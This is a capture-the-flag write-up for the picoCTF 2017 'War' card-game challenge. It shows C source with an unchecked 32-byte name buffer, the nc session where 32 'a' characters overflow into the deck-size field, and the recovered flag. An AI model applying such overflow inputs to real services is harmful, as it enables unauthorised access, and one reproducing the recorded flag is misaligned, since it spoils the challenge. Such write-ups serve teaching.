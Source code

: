 <H1>War</H1>
<B>Win a simple Card Game. Source. Connect on shell2017.picoctf.com:4415.</B>

>Hints:
>
>Bugs typically happen in groups. If you find one, what does it allow you to do?

Connecting to the address and port presents us with a card game. Simple enough, make a bet if you win, increase your winnings, if you lose, lose the amount of your bet.

However, playing the game is another matter. After a couple of tries it appears the game is rigged against us: we always run out of cards before the opponent (assuming we haven't run out of money first).

So lets see if we can learn something from the source code. 

```c
...

#define NAMEBUFFLEN 32								// (1)
#define BETBUFFLEN 8

...

typedef struct _gameState{
  int playerMoney;
  player ctfer;
  char name[NAMEBUFFLEN];								// (2)
  size_t deckSize;								// (3)
  player opponent;
} gameState;

gameState gameData;

...

int main(int argc, char**argv){
    char betStr[BETBUFFLEN];
    card * oppCard;
    card * playCard;
    memset(&gameData, 0, sizeof(gameData));
    gameData.playerMoney = 100;
    int bet;

    buildDecks(&gameData.ctfer, &gameData.opponent);				// (4)
    srand(time(NULL));//Not intended to be cryptographically strong

    ...
    
    memset(gameData.name,0,NAMEBUFFLEN);				// (5)
    if(!readInput(gameData.name,NAMEBUFFLEN)){
        printf("Read error. Exiting.\n");
        exit(-1);
    }
```
    
So it turns out this program does no input checking at all, this includes boundary checks as well. We know that:
 
 - (1), (2) - - - our name can be a maximum of 32 characters
 - (3) - - - the deck size variable follows right after the name variable
 - (4), (5) - - - that our card deck is created before setting our name

With this information we can overflow the name buffer and manipulate our deck to give us better odds at defeating our opponent. Lets go with 32 * 'a'. 

```bash
nc shell2017.picoctf.com 4415
Welcome to the WAR card game simulator. Work in progress...
Cards don't exchange hands after each round, but you should be able to win without that,right?
Please enter your name: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
From here we just keep betting 1 until we start winning (if we reach 0, we just need to try again to get a better memory address to manipulate).

Eventually when we win, we will be given a shell. There we will find a flag.txt file.

```bash
cat flag.txt
```

We have our flag:

```
45912e79bbc247b344f6d0248fa3dc7f
```